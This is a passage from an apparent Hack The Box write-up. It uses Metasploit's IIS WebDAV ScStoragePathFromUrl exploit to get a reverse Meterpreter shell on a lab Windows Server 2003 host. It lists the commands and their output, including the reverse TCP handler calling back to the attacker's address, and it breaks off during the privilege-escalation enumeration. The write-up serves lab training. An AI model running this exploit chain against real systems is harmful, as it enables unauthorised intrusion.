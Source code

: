 By the following way, we can exploit the vulnerability with Metasploit.<br>
Now we got a shell as user "authority\network service".<br>
However, in this time, it's not possible to achieve "user.txt".
{% highlight shell %}
msf5 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl 
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts 10.10.10.14
rhosts => 10.10.10.14
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (180291 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.36:4444 -> 10.10.10.14:1031) at 2020-01-11 15:49:29 +0200

meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2112 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\Documents and settings>whoami
whoami
nt authority\network service

c:\Documents and settings>
{% endhighlight %}


### 3. Getting Root

Since "nt authority\network service" has less permission than ordinary users, we can not use some common commands here.
{% highlight shell %}
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.

meterpreter > 
{% endhighlight %}

Before getting SYSTEM shell, we need to achieve another process having better permission.<br>
This time, we cab migrate to the process "notepad.txt".
{% highlight shell %}
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 272   4     smss.exe                                                        
 324   272   csrss.exe                                                       
 348   272   winlogon.exe                                                    
 396   348   services.exe                                                    
 400   616   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 408   348   lsass.exe                                                       
 616   396   svchost.exe                                                     
 684   396   svchost.exe                                                     
 740   396   svchost.exe                                                     
 768   396   svchost.exe                                                     
 804   396   svchost.exe                                                     
 940   396   spoolsv.exe                                                     
 968   396   msdtc.exe                                                       
 1080  396   cisvc.exe                                                       